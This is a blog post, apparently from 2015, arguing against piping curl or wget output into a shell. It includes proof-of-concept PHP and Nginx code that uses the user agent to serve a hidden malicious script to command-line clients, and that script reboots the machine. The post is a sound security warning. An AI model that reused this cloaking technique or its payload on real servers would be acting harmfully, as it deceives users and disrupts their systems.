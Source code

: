 ```yaml
---
date: 2015-10-09T00:12:03Z
disqus: true
escape_code: true
share: true
title: Please Stop curl/wget'ing Directly to bash/sh
url: /2015/10/09/please-stop-curl-wgeting-directly-to-bash-sh/
---
```


Today, we are going to discuss the dangers of sending the output of a curl or wget command directly to your shell. There are already a few examples on why this is dangerous, with a very clear and concise example available <a href="https://www.seancassidy.me/dont-pipe-to-your-shell.html" target="_blank">here</a> that explains the dangers of connections closing or failing before the transfer is completed. However, I would like to present a much more malicious example. *Sinister, even!* I call it "The Bait-and-Switch."
  
Though this is certainly nothing groundbreaking or even new, this proof of concept is what I hope will end this ridiculous trend of piping downloaded scripts directly to your shell once and for all.
  
Take the following URL, for example: <a href="https://lamendola.me/speedtest/" target="_blank">https://lamendola.me/speedtest/</a>
  
In your browser, the above URL shows a perfectly functional bash script you can use to do some CLI speed tests from DigitalOcean test machines in each of their datacenters. This script will download a 100 MB test file to show basic throughput expectations, and then it will measure the average latency with a series of pings to each test machine. This script by itself is actually quite useful to someone on DigitalOcean or someone considering which datacenter(s) to use in a new setup.
  
Now, let's try to grab the same exact URL using `curl` or `wget` (but **NOT** piping to bash):
  
``` bash
curl https://lamendola.me/speedtest/
```
``` bash
wget -O- https://lamendola.me/speedtest/
```
  
What kind of sourcery is this, you ask? Well, let's just go straight into the explanation. Like I mentioned in the introduction, we wanted to show what happens when there's true malicious intent on the server side. To demonstrate this, a friend and I decided to implement two separate proof of concept solutions to achieve the same bait-and-switch end result. We'll first show his example, written in PHP (he has chosen to remain nameless so you don't associate him with PHP):
``` php
<?php

if (isset($_SERVER['HTTP_USER_AGENT']))
{
    $useragent = strtolower($_SERVER['HTTP_USER_AGENT']);
}

if (!isset($useragent) || empty($useragent) || strpos($useragent, "curl") !== false || strpos($useragent, "wget") !== false)
{
    echo "#!/bin/sh\n";
    echo "#\n";
    echo "# If you are reading this, I fucked up or you pay attention to what you are doing. Friends don't let friends wget/curl into bash.\n";
    echo "# They don't prank them while they're working on their production networks either, so keep that in mind before you link to someone else.\n";
    echo "#\n";
    echo "# If you aren't reading this... well...\n";
    echo "#\n";
    echo "# Every host should have shutdown, right? They all run debian and ubuntu anyway...\n";
    echo " ping -q -s 90 -c 1 speedtest.gparent.org\n";
    echo "# We don't care if this works or not. We made our point\n";
    echo " shutdown -r now Attention all currently logged-in users - I have shutdown privileges and executed a shell script without reading its source code\n";
    echo "exit 0 # Exit cleanly. Very important.\n";
}
else
{
    header('Content-Type: text/plain');
    readfile("./script.sh");
}
?>
```
  
As you can see, this is an extremely basic script that will check the user agent string of the browser/client, and if it matches wget, curl or is blank, the malicious script will be presented as the output. Under any other conditions (browsers and some other downloaders that don't rely on wget or curl), the proper script will be presented to your browser, so you can feel all warm and fuzzy about "inspecting the source" before piping it directly to bash from curl/wget.
  
Here's the example I came up with using only Nginx to determine which of two files to serve (one malicious, one not):
  
``` nginx
## Proof of concept curl|sh bait and switch
location ~ ^/speedtest {
    index speedtest.txt;
    if ($http_user_agent !~* 'curl|wget') {
        root /home/speedtest;
    }
    root /home/speedtest/malicious;
}
```
  
This example is also quite simple, just like the above PHP version, but it requires only Nginx. To create the necessary directory structure, I created `/home/speedtest`, which contains `speedtest/speedtest.txt` and `malicious/speedtest/speedtest.txt` underneath it. I'm sure you can guess which one is the good script and which one is the bad. My example is only matching useragents that contain 'curl' or 'wget' in any case, but leaving any other ones untouched.
  
Easy, huh?
  
I hope our brief lesson has further implanted into your brain the dangers of piping scripts directly to your shell. Please do your civic duty and tell all your friends to watch out for assholes like myself and my anonymous researcher friend when moving about the interwebs, as you never know when we are out to prove a point (or concept)! We hope you will now at least think twice before piping scripts directly into your shell after downloading, and we'd be ecstatic if you *STOPPED DOING IT ALTOGETHER, BECAUSE IT'S JUST PLAIN STUPID*. This concludes our PSA.

